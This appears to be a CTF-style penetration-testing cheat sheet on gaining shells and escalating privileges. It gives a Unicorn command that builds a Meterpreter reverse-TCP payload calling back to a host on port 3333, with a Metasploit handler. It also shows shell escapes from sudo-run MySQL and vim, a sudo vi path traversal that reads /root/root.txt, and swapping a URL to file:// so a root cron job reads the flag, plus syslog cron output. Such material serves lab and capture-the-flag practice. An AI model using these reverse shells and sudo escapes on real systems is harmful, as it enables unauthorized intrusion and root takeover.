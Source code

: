 
To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
```
> $ /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
> $ msfconsole -r unicorn.rc 
[*] Started reverse TCP handler on <HOST_IP>:3333 
msf5 exploit(multi/handler) >         
```

#### MYSQL with Sudo Privilage

To get Shell from MYSQL
```
mysql> \! /bin/sh
```

#### VIM Editor with Sudo Privilage

To get Shell from VIM.

Method-1:
```
> $ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```
Method-2:

```
> $ sudo /usr/bin/vi /var/www/html/anyrandomFile
Type Escape and enter :!/bin/bash
```

#### Cronjob

If some system cron is getting some url present in the file, we can replace url to get flag as below.
```
> $ cat input 
url = "file:///root/root.txt"
```

To monitor cronjobs, we can tail the syslogs.
```
> $ tail -f /var/log/syslog
Nov 18 23:55:01 sun CRON[5327]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5626]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5627]: (sun) CMD (nodejs /home/sun/server.js >/dev/null 2>&1)
Nov 19 00:05:01 sun CRON[5701]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```
